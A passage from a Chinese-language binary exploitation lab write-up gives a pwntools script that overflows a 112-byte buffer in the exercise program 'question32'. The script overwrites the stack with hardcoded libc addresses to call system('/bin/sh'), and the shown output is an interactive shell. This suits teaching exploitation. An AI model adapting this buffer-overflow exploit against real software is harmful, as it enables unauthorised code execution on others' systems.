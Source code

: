 继续执行。

![image-20220817161746120](image-20220817161746120.png)

成功取得shell。现在我们把调试器去除，使用 `pwn.process` 来启动程序。

```python
from pwn import process
import struct

p = process('./question32')

p.send(b'/bin/sh')

payload = b'\x42' * 112
# %ecx, %ebx, %edi, %ebp, &system, &perror, &name
stack_elem = [0xffffd1c0, 0, 0, 0, 0xf7dcbcb0, 0xf7dbe1c0, 0x804c060]
payload += struct.pack('<IIIIIII', *stack_elem)
p.send(payload)

p.interactive()
```

结果：

```plaintext
(.venv) vm :: repos/pwn/lab-2 » python exp32.py
[+] Starting local process './question32': pid 146484
[*] Switching to interactive mode
name: 0x804c060 buffer: 0xffffd13c
what's your name?
Welcome, /bin/sh. Show your hack skill.
$ echo $0
/bin/sh
$
```
